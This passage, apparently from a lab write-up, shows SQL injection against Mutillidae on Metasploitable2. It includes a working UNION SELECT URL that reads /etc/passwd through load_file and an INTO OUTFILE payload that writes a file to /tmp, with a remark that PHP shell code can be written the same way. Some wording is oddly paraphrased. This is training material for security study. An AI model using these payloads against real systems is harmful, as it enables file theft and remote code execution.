 http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/0c7e405a-810d-4c6a-96d2-7731a93ecbe6)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
